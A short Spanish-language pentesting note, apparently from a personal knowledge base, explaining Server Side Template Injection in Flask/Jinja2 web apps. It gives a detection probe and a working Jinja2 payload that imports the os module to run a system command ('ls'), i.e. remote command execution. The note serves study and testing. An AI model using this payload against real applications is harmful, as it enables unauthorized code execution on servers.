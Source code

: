 ```yaml
---
title: ssti
author: naibu3
type: web
---
```


#web 

# ssti

*Server Side Template Injection* ó *ssti* es una vulnerabilidad de aplicaciones web que emplean plantillas para mostrar contenido dinámico, como podría ser *jinja2* de [[flask 1]].

## flask-python3

Las aplicaciones con *flask/jinja2*, pueden ser vulnerables a *ssti*, para comprobarlo podemos probar con un payload como `{{2*3}}`, si la página renderiza un `6`, sabremos que dicho *payload* se ejecuta como código [[python 1]], permitiéndonos *ejecución remota de comandos* ([[RCE]]).

A continuación algunos payloads (mirate también [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)):

```python3
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}

```
> Este payload trata de acceder al módulo `warning` para poder importar la librería `os` y ejecutar comandos del sistema (en este caso `ls`)